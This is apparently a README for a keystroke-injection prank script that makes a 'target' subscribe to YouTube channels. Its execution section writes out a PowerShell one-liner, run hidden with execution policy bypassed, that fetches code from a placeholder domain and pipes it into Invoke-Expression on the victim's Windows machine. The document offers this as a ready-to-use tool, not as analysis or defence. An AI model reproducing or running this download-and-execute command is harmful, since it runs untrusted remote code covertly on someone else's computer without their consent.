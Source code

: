 

<!-- TABLE OF CONTENTS -->
<!--TABLE 0F C0NTENTS-->

# Must Sub

A script used to get your target to subscribe to 15 of my favorite hacker YouTube channels. 

## Description

This script will loop through an array of URLs.

Each URL will be passed through the subscribe function.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

##

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the dependencies and payload
```
powershell -w h -NoP -NonI -Ep Bypass irm MYDOMAIN.HERE/14q | iex
```

##

## Contributing

All contributors names will be listed here

M3!

##

## Version History

* 0.1
    * Initial Release

##

<!-- CONTACT -->

